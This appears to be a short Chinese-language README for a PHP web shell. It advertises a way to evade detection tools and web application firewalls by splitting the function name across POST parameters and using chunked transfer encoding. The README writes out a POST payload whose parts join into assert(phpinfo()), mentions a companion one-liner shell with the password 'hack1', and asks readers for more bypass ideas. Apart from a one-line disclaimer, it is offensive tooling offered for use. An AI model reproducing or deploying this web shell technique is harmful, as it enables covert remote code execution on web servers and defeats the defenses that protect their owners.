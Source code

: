  # shell
我发现了一种php-shell的新写法，它可以绕过大部分的检测，还可以用分块传输绕过waf

使用post发送如下参数

hack1=ass&hack2=ert&hack3=phpi&hack4=fo()


hack1会和hack2拼接，hack3会和hack4拼接而形成assert(phpinfo())
![1](https://user-images.githubusercontent.com/90552883/229515220-742c99b2-a06f-4f30-99b9-c57b3a1c373a.PNG)
![2](https://user-images.githubusercontent.com/90552883/229515223-ce3efc9e-e456-4421-81c6-1036808c2bbf.PNG)
![3](https://user-images.githubusercontent.com/90552883/229515226-11aaa83e-9ab8-4b24-b30b-cd996e23df69.PNG)
![4](https://user-images.githubusercontent.com/90552883/229517804-b1b83abb-d678-4b24-b2be-dd9bcddde2e4.PNG)

我还编写了通过拼接编码方式来绕过的ms.php(绕过效果比xz.php差) 可以向php一句话一样来使用它 密码（hack1)

欢迎各位提供绕过思路

请勿用于违法行为！！！！！！！！！！！！！！！
